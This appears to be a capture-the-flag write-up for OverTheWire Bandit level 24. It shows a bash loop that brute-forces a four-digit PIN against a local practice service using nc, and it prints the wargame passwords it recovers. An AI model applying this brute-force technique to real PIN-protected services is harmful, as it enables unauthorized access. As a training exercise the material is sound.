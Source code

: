 # Level 24

## Explanation

A background program is listening on port 30002. It will give us the password for the next level if we send:
- The password for Bandit 24
- A secret 4-digit PIN code

## Solution
<pre>
bandit24@bandit:~$ cd /tmp
bandit24@bandit:~$ mkdir lvl24
bandit24@bandit:~$ cd lvl24
bandit24@bandit:/tmp/lvl24$ nano brute.sh
bandit24@bandit:/tmp/lvl24$ cat brute.sh
#!/bin/bash
for i in {0000..9999}; do
  echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done
bandit24@bandit:/tmp/lvl24$ chmod +x brute.sh
bandit24@bandit:/tmp/lvl24$ ./brute.sh | nc localhost 30002
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
</pre>


<pre>
#!/bin/bash
for i in {0000..9999}; do
  echo "<bandit24_password> $i"
done
</pre>
This script starts a loop that goes through every number from 0000 to 9999. It covers all possible 4-digit PIN codes — exactly 10,000 combinations
For each PIN, it prints a line that includes:
1. The password for Bandit 24 
2. The current PIN code ($i)
- ``./brute.sh | nc localhost 30002`` This sends all 10,000 combinations to the daemon and  it will respond with the password for bandit 25.
